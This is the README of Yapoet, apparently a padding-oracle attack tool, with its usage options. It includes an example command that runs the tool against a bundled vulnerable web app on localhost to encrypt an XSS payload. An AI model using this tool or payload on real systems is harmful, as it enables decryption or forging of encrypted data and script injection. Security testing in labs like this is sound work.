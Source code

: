 Yapoet
======

Comprehensive description will be added later. Presently you can try to play with it against included example of a vulnerable web application:
```
yapoet.py -u http://localhost:57679/ -d "aEMei5bwchHQqb6rh17Irg==" -e "<script>alert(/XSS/)</script>" --data="__VIEWSTATE=&Answer=&EncryptedAnswer=%encrypted_data%"
```

Usage
=====
    yapoet.py [options]
    
    Options:
      -h, --help            show this help message and exit
      -u URL, --url=URL     Target URL (e.g. "http://host/?param1=value%2b1&param2=value%2b2")
      -d ENCRYPTED_DATA, --decrypt=ENCRYPTED_DATA
                            Base64-encoded data to decrypt
      -e PLAINTEXT_DATA, --encrypt=PLAINTEXT_DATA
                            Plaintext data to encrypt
      --data=POST_DATA      POST data (e.g. "param1=value%2b1&param2=value%2b1")
      --cookie=COOKIE       HTTP Cookie header value
      --block-size=BLOCK_SIZE
                            Cipher block size [default: 16]
    
    Please note that the value of at least one of the HTTP-request parameters in the URL, 
    POST_DATA or COOKIE options should be replaced with an %encrypted_data% placeholder.

